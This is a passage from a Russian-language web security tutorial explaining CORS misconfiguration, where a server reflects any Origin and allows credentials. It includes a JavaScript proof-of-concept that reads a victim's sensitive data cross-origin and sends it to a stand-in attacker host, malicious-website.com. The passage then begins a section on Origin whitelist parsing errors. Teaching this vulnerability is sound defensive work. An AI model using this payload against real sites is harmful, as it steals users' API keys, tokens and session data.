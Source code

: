 **Пример:**

Запрос:

```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

Ответ:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

Эти заголовки указывают, что доступ разрешён с домена `malicious-website.com`, и что междоменные запросы могут включать cookies (`Access-Control-Allow-Credentials: true`), а значит, будут обработаны в рамках сессии.

Так как приложение отражает произвольные источники в заголовке **Access-Control-Allow-Origin**, это означает, что абсолютно любой домен может получить доступ к ресурсам уязвимого домена.

Если ответ содержит конфиденциальную информацию, такую как API‑ключ или CSRF‑токен, её можно извлечь, разместив на своём сайте следующий скрипт:

```js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
    location='//malicious-website.com/log?key='+this.responseText;
};
```

## Ошибки при разборе заголовков Origin

Некоторые приложения, поддерживающие доступ с нескольких источников, делают это с помощью белого списка разрешённых источников. Когда поступает CORS‑запрос, указанный источник сравнивается с белым списком. Если источник есть в списке, он отражается в заголовке **Access-Control-Allow-Origin**, и доступ разрешается.

**Пример:**

Запрос:
```
GET /data HTTP/1.1
Host: normal-website.com
Origin: https://innocent-website.com

```
